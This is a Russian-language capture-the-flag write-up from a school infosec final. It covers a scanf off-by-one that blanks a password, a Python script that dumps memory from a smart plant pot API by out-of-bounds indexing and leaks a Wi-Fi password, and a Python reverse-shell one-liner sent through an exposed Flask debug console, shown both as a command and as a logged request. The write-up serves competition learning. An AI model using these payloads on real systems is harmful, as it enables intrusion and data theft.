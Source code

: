 # Райтап на финал иб нто 2025 от команды While_hot_false
## Состав
* Walter White
* eogod
* Kolya080808
* kvasilek
# Задачи с коротким ответом

## Web
## Pwn 1
Из функции write_file() : 
```
  printf("Enter file content: ");
  __isoc99_scanf("%256s", file_buffer);
  flush();
  file = open(path, 65, 0, v0, v1, v2);
```
При этом file buffer сам размером 256 байт, а после него лежит secret password:
```
.bss:0000000000004120 file_buffer     db 100h dup(?)          ; DATA XREF: init_storage+70↑o
.bss:0000000000004120                                         ; init_storage+A8↑o ...
.bss:0000000000004220                 public secret_password
.bss:0000000000004220 ; char secret_password[32]
.bss:0000000000004220 secret_password db 20h dup(?)   
```
scanf("%256s", file_buffer) записывает максимум 256 байт + 1 ноль байт, который попадёт уже в secret_pasword. В итоге пароль начинается с 0x00, то есть по факту пустая строка. \
Решение: 
* Записываем в файл 256 букв 
* Запрашиваем чтение 00000000 и при запросе пароля просто нажимаем enter 
* Получаем флаг
```
nc 10.10.11.101 9001
                    
            +++++++                )                           
          +++      ++           ( /(   (     )           (     
   ++++++++         ++++        )\()) ))   (     `  )   )\ )  
  ++                   +++     (_))/ /((_)  )\  ' /(/(  (()/(  
 ++          ++          ++    | |_ (_))  _((_)) ((_)_\  )(_)) 
 ++        ++++++.       ++    |  _|/ -_)| '  \()| '_ \)| || | 
  +++        ++        +++      \__|\___||_|_|_| | .__/  \_, | 
    :+++++++ ++  +++++++                         |_|     |__/  
             ++                                  
             ++                                  
    finally, service for reading and             
                writng your OWN temporary files! 


Commands:
        1. Read file
        2. Write file
>> 2
Enter file content: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Your file ID: 0a09d600

Commands:
        1. Read file
        2. Write file
>> 1
Enter file ID: 00000000
Opa, give me password: 
File contains: nto{sup3r_s3cr3t_c0nf1d3ntial_fl4g}
Commands:
        1. Read file
        2. Write file
>> 

```
### Касса
перенос строк через \ кстати делается \
перенос строк через \ кстати делается
## Infra

### Confluence
всем респект
### NAS
да таск халява
### NAS2
коля респект
### Сервер печати

# Задачи с защитой
## Кроличий горшок 2.0 
https://qwqoro.works/articles/plants-vs-bugs \
У горшочка есть апи на 80 порту, позволяющее получить заряд горшка, влажность, температуру и прочую информацию о горшке(метод GET_SNAPSHOT). \

Ту же самую информацию можно получить через метод GET_PROPERTY, передав в param индекс массива. Суть в том, что можно обратиться за индексы массивы и прочитать произвольную память. Последовательно перебирая индекс, получим дамп, в котором лежит флаг \

Exploit:
```
import struct
import requests

start_param = -2000
end_param = 5000

with open("dumpy.bin", "wb") as f:
    for i in range(start_param, end_param):
        print(f"[*] Requesting {i}")
        r = requests.post("http://10.10.1.172/control", json={"cmd": 1, "param": i})
        value = r.json()["value"]
        if type(value) == int:
            f.write(struct.pack("<i", value))
        elif type(value) == float:
            f.write(struct.pack("<f", value))
        elif value is None:
            f.write(struct.pack("<i", 0))
        else:
            print("Unknown type!", value)
        f.flush()
```
Кусок дампа, где лежит пароль от вай-фай сети ASUS-3:
```
000019b0  00 00 00 00 00 00 00 00  75 75 69 64 33 36 65 63  |........uuid36ec|
000019c0  35 64 32 31 30 62 34 38  37 65 38 39 00 00 00 00  |5d210b487e89....|
000019d0  00 00 59 42 33 36 45 59  55 52 61 39 52 33 6d 6c  |..YB36EYURa9R3ml|
000019e0  64 35 6a 6e 37 58 6e 30  34 43 6a 4c 56 72 31 44  |d5jn7Xn04CjLVr1D|
000019f0  51 56 61 77 31 70 32 00  00 00 00 00 00 00 00 00  |QVaw1p2.........|
00001a00  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00001a10  00 00 00 58 66 73 32 49  32 62 53 33 63 75 76 4b  |...Xfs2I2bS3cuvK|
00001a20  44 49 63 77 35 79 55 62  57 41 6d 73 61 36 34 74  |DIcw5yUbWAmsa64t|
00001a30  49 47 6a 00 53 6d 61 72  74 4c 69 66 65 5f 49 76  |IGj.SmartLife_Iv|
00001a40  79 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |y...............|
00001a50  00 00 00 00 00 69 63 6c  31 32 33 31 35 39 00 00  |.....icl123159..|
00001a60  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
00001ab0  00 00 00 00 00 00 00 00  00 00 00 00 06 00 41 53  |..............AS|
00001ac0  55 53 2d 33 00 00 00 00  00 00 00 00 00 00 00 00  |US-3............|
00001ad0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 6e  |...............n|
00001ae0  74 6f 7b 70 30 37 5f 77  68 34 37 35 5f 31 6e 5f  |to{p07_wh475_1n_|
00001af0  75 72 5f 68 33 34 64 7d  00 00 00 00 00 00 00 00  |ur_h34d}........|
00001b00  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
```

## Враг врага 2 - 1
через /console, который доступен, потому что на питоновском веб сервере включен debug, был прокинут реверс шелл на питоне:
```
>>> import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((&#34;10.10.10.12&#34;,9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(&#34;bash&#34;)
```
## Враг врага 2 - 2
Ответ: 10.10.10.12, 81.177.221.242
* 10.10.10.12 - посылал запрос на /console с реверс шеллом на 172.18.0.3
```
GET /console?&__debugger__=yes&cmd=import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket(socket.AF_INET%2Csocket.SOCK_STREAM)%3Bs.connect((%2210.10.10.12%22%2C9001))%3Bos.dup2(s.fileno()%2C0)%3B%20os.dup2(s.fileno()%2C1)%3Bos.dup2(s.fileno()%2C2)%3Bimport%20pty%3B%20pty.spawn(%22bash%22)&frm=0&s=yqqPfQiFZmXsmnZQYMPF HTTP/1.1
Host: 10.10.10.3:5000
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.3:5000/console
Connection: keep-alive
Cookie: hide-dotfile=no; __wzd44828fdba9134e8d1a6f=1737574404|9130fd746c6b
Priority: u=0
```
* 81.177.221.242 - c этого айпишника был скачан бинарник, лежащий на /app

## Markdown 
[Как пользоваться](https://github.com/adam-p/markdown-here/wiki/markdown-cheatsheet#lists)

